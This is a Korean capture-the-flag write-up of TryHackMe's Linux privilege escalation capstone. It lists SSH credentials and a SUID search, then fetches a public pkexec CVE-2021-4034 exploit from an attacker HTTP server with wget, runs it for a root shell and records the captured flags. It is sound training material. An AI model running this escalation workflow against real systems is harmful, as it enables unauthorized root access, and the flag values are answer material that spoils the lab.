 ## 🚩 Final Mission: Capstone Challenge
> TryHackMe Linux Privilege Escalation 실습의 마지막 단계인 Capstone Challenge에서, SUID로 설정된 `pkexec` 바이너리를 이용한 CVE-2021-4034(Local Privilege Escalation via Polkit) 익스플로잇을 활용해 루트 권한을 획득하고 플래그를 수집하였다.

---

### 1. 실습 개요
- **타겟 머신 IP**: 10.10.47.252
- **공격 머신**: Kali Linux
- **사용 계정**: `leonard:Penny123`
- **공격 방식**: CVE-2021-4034 (Polkit pkexec Local Privilege Escalation)
- **실습 일자**: 2025-04-20

---

### 2. 실습 과정

#### 2.1 SSH 접속 및 SUID 바이너리 확인

```bash
ssh leonard@10.10.47.252
```
- leonard 계정으로 타겟 머신에 SSH 접속하였다.

![SSH 로그인 및 SUID 확인](./screenshots/ssh_connect.png)

```bash
find / -type f -perm -04000 -ls 2>/dev/null
```
- SUID가 설정된 바이너리 목록에서 `/usr/bin/pkexec` 확인하였다.

![pkexec SUID 확인](./screenshots/pkexec_suid.png)

---

#### 2.2 Exploit 준비 및 Kali SSH 활성화
- Kali에서 SSH 서버를 실행하여 외부에서 접근 가능하도록 설정하였다.
```bash
systemctl start ssh
```

![Kali SSH 서버 활성화](./screenshots/ssh_start.png)

---

#### 2.3 Exploit 다운로드 및 전송 (Windows → Kali)
- 사용한 파일: `CVE-2021-4034.py` (Polkit pkexec Exploit)
- 해당 파일은 [GitHub 링크](https://github.com/joeammond/CVE-2021-4034/blob/main/CVE-2021-4034.py)에서 다운로드하였으며, 이후 실습 환경에 맞춰 수정되었다.

- Windows에서 Kali로 scp 명령어를 이용해 CVE-2021-4034 exploit 파일을 전송함.

```powershell
scp D:/exploit_file/CVE-2021-4034.py root@<KALI-IP>:/root
```

![Windows → Kali SCP 전송](./screenshots/move_scp.png)

---

#### 2.4 Kali → Target 파일 전송 (HTTP 서버)
- Kali에서 HTTP 서버 구동 후, 타겟 머신에서 `wget`으로 파일 다운로드.

```bash
python3 -m http.server 8000
wget http://<kali-ip>:8000/CVE-2021-4034.py -O /tmp/exploit.py
```
- `/tmp` 디렉토리에 `exploit.py` 로 파일 이름 저장.

![Kali HTTP 서버 및 Target 다운로드](./screenshots/wget_download.png)

---

#### 2.5 Exploit 실행 전 환경 확인 및 수정

- Target 머신에서 `/tmp/exploit.py` 확인 후 실행 시 python3가 없다는 에러 발생하였다.

![python3 오류 및 수정](./screenshots/py_error.png)

- 후에 `vi exploit.py`로 파일 열고 python3 → python으로 shebang 수정.
- 또한 `:version` 명령어를 통해 `+python` / `-python3` 환경임을 확인하였다.
```bash
chmod +x exploit.py
```

![:version을 통해 +python 확인](./screenshots/version_python.png)

---

#### 2.6 Exploit 실행 및 루트 쉘 획득

- exploit.py를 실행하여 루트 쉘 획득 성공하였다.
```bash
./exploit.py
```

![루트 쉘 획득](./screenshots/get_root.png)

---

#### 2.7 플래그 탐색 및 획득

```bash
find / -name flag1.txt
cat /home/missy/Documents/flag1.txt

find / -name flag2.txt
cat /home/root/flag/flag2.txt
```

![플래그 2개 획득](./screenshots/flag_capture.png)

---

## 📁 부록: Exploit 파일 정보

- `/exploit.py`: 실습 환경에 맞춰 수정된 CVE-2021-4034 Python Exploit 스크립트입니다.
  - 수정사항: shebang을 `python3` → `python`으로 변경하여 대상 머신에서 실행 가능하도록 조정함
  - 원본 출처: [CVE-2021-4034 Python Exploit (GitHub)](https://github.com/joeammond/CVE-2021-4034/blob/main/CVE-2021-4034.py)

---

### 3. 최종 결과
- CVE-2021-4034를 이용하여 루트 권한 획득 성공 (`uid=0(root)`)
- Exploit 실행 환경에 맞춰 python 버전을 수정하는 과정이 필요하였다.
- flag1.txt 파일에서 플래그 확보: `THM-42828719920544`
- flag2.txt 파일에서 플래그 확보: `THM-168824782390238`

---

### 4. 배운 점
> ✅ Capstone Challenge를 통해 그동안 배운 권한 상승 기법 중 하나인 Kernel Exploit의 실제 활용과, SUID 기반 취약점 탐지 및 익스플로잇 환경 설정의 중요성을 복습할 수 있었다. 특히 실행 환경의 python 버전과 같이, 사소하지만 중요한 요소가 Exploit 성공 여부를 좌우할 수 있다는 점을 체감하였다.

